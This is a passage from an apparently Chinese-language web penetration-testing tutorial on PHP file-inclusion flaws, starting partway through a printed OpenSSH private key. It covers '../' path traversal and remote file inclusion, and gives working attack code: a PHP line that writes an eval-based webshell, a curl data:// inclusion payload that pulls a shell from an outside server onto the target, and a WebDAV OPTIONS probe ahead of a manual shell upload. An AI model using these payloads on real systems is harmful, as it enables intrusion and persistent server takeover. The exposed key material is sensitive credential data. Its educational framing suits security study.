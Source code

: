 ```
X8THaQAEXAO6TTzPMLgwJi+0kj1UTg+D+nONfh7xeXLseST0m1p+e9C/8rseZsSJSxoXKk
CmDy69aModcpW+ZXl9NcjEwrMvJPLLKjhIUcIhNjf4ABAAAAgEr3ZKUuJquBNFPhEUgUic
ivHoZH6U82VyEY2Bz24qevcVz2IcAXLBLIp+f1oiwYUVMIuWQDw6LSon8S72kk7VWiDrWz
lHjRfpUwWdzdWSMY6PI7EpGVVs0qmRC/TTqOIH+FXA66cFx3X4uOCjkzT0/Es0uNyZ07qQ
58cGE8cKrLAAAAgQDlPajDRVfDWgOWJj+imXfpGsmo81UDaYXwklzw4VM2SfIHIAFZPaA0
acm4/icKGPlnYWsvZCksvlUck+ti+J2RS2Mq9jmKB0AVZisFazj8qIde3SPPwtR7gBR329
JW3Db+KISMRIvdpJv+eiKQLg/epbSdwXZi0DJoB0a15FsIAQAAAIEA0uQl0d0p3NxCyT/+
Q6N+llf9TB5+VNjinaGu4DY6qVrSHmhkceHtXxG6h9upRtKw5BvOlSbTatlfMZYUtlZ1mL
RWCU8D7v1Qn7qMflx4bldYgV8lf18sb6g/uztWJuLpFe3Ue/MLgeJ+2TiAw9yYoPVySNK8
uhSHa0dvveoJ8xMAAAAZcWl1QGxvY2FsaG9zdC5sb2NhbGRvbWFpbgEC
-----END OPENSSH PRIVATE KEY-----

```
#### 2.2.2. 相对路径读取

相对路径就是指由这个文件所在的路径引起的跟其它文件（或文件夹）的路径关系。相对路径读取就是当我们不知道某个文件具体路径的时候，使用相对路径以当前位置作为参看向后退，逐次访问。

##### 2.2.2.1. 相对路径读取方式

相对利用读取方式就需要使用"../"来进行读取，一次"../"向后退一次。

例如：当我们在C:\tool\PHPTutorial\www的时候，那么我们使用"../"的时候我们就退到C:\tool\PHPTutorial，若使用两次"../"的时候就会退到C:\tool，两次"../"也就是"../../"就可以了。

##### 2.2.2.2. 相对路径读取案例1

这里我把1.txt创建在C:\tool\PHPTutorial目录下，而现在这个文件包含漏洞放在www下也就是C:\tool\PHPTutorial\www，所以这里我只需要输入一次"../"就可以读取到1.txt了。

### 2.3. 远程文件读取

远程文件包含大概意思在之前已经提过了，这里就演示一下案例。

前提条件：目标服务器的allow_url_fopen选项是on。只有当这个选项是on的时候就能够使用远程文件包含一句话木马。

#### 2.3.1. 远程文件配合一句话木马案例

攻击者php代码：

```
<?php fputs(fopen("shell.php", "w"),"<?php @eval($_POST['pass']);?>")?>
```

这句话的意思就是当访问这个php代码后就会在当前目录生成一个shell.php文件，并且这个文件中含有一句话木马

```
curl "http://target-server.com/index.php?file=data://text/plain,<?php%20$url%20=%20'http://your-server.com/shell.php';%20$content%20=%20file_get_contents($url);%20file_put_contents('shell_uploaded.php',%20$content);?>"
```

### 手工上传一句话木马


查看目录的请求选项： 

```
curl -v -X OPTIONS http://192.168.9.20/test/

输出中显示支持PUT方法：
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST

```
